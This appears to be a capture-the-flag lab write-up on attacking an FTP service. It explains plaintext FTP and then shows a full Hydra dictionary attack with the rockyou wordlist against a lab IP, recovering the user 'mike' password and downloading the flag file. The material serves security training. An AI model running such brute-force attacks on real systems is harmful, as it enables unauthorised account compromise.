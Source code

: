 When using FTP both the command and data channels are unencrypted. Any data sent over these channels can be intercepted and read.

With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an attacker could reveal anything sent through this protocol (such as passwords). An article written by [JSCape](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP) demonstrates and explains this process using ARP-Poisoning to trick a victim into sending sensitive information to an attacker, rather than a legitimate source.

When looking at an FTP server from the position we find ourselves in for this machine, an avenue we can exploit is weak or default password configurations.

**Method Breakdown**

So, from our enumeration stage, we know:

    - There is an FTP server running on this machine  
    - We have a possible username  

Using this information, let's try and **bruteforce** the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub [here](https://github.com/vanhauser-thc/thc-hydra).  

The syntax for the command we're going to use to find the passwords is this:

**"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"**

Let's break it down:

SECTION             FUNCTION  
  
hydra                   Runs the hydra tool  
  
-t 4                    Number of parallel connections per target  
  
-l [user]               Points to the user who's account you're trying to compromise  
  
-P [path to dictionary] Points to the file containing the list of possible passwords  
  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
  
[machine IP]            The IP address of the target machine  
  
ftp / protocol          Sets the protocol

### Initial Details 

Victim IP: 10.10.156.219
username: mike

1. rockyou.txt not present so had to download the file and install it on the from github https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
2. Ran the rockyou.txt with the following command 
```shell
hydra -t 4 -l mike -P /usr/share/rockyou.txt -vV 10.10.156.219 ftp 


Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-26 06:53:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.156.219:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.156.219 - login "mike" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.156.219 - login "mike" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.156.219 - login "mike" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.156.219 - login "mike" - pass "password" - 4 of 14344398 [child 3] (0/0)
[21][ftp] host: 10.10.156.219   login: mike   password: password
[STATUS] attack finished for 10.10.156.219 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-26 06:53:26

```
found the password for mike to be password

3. Need to connect using root to the mike user with ftp otherwise won't be able to 
```shell
sudo su 

ftp 10.10.156.219

# login as mike and use password

#download the file
ftp> mget ftp.txt
mget ftp.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||51011|)
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
100% |************************************************|    26      497.85 KiB/s    00:00 ETA
226 Transfer complete.
26 bytes received in 00:00 (3.41 KiB/s)

```

4. Entered the flag after reading the ftp.txt
